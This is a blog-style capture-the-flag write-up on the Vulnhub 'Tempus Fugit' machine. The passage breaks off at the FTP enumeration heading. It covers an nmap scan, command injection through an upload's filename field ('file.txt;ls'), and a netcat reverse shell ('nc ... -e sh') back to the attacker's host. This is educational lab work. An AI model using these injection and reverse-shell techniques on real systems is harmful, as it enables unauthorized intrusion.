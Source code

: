```yaml
---
layout:     post
title:      "Vulnhub - Tempus Fugit"
subtitle:   "Write-Up"
date:       2019-08-26
author:     "D4mianwayne"
tag:      nmap, ctf, vulnhub
category: Vulnhub
---
```



Writeup for [Tempus Fugit](https://www.vulnhub.com/entry/tempus-fugit-1,346/) by [4ndr34z](https://twitter.com/4ndr34z) and [DCUA7](https://twitter.com/DCAU7).

# Foreword

This machine had a internal network/machine that was our real target and it teaches you about how reconnaisance can often lead you to the vulnerable machine in a network.

# Nmap

Starting off with nmap, scanning with `nmap -sV -sC -A -p- 192.168.43.224` which shows that we have only one port open i.e. 80 aka HTTP. So, let's check it.

![](/img/TempusFugit/nmap.png)

# HTTP Enumeration 

Going to the HTTP port gives a good looking UI having a upload feature which will be saved to their internal FTP network of the machine. Now, let's try to upload something which might lead us to something nasty. But as a **sanity check** I tried to upload `.php` file but it only accepts `rtf` and `txt` files, since it wasn't a windows machine any kind of `rtf` related exploit would be pointless.
Next I tried to intercept the traffic via Burp Suite, now as we can see the contents which was being rendered and the file name field, so as a **sanity check** again, I added `file.txt;ls` to check it's listing the files from that folder or not, at this point [DCAU7](https://twitter.com/DCAU7) helped me. So, it was possible to do a command injection from the file field parameter, the command `nc < hexencodedIP port -e sh>` pointed out by the [DCAU7](https://twitter.com/DCAU7), probably WAF was preventing the standdard IP from being executed in the same order it was supposed to.

![](/img/TempusFugit/burp.png)

Starting the listener and executing that payload of ours, landed a reverse shell.

![](/img/TempusFugit/tempus.png)

# First Network and FTP Enumeration
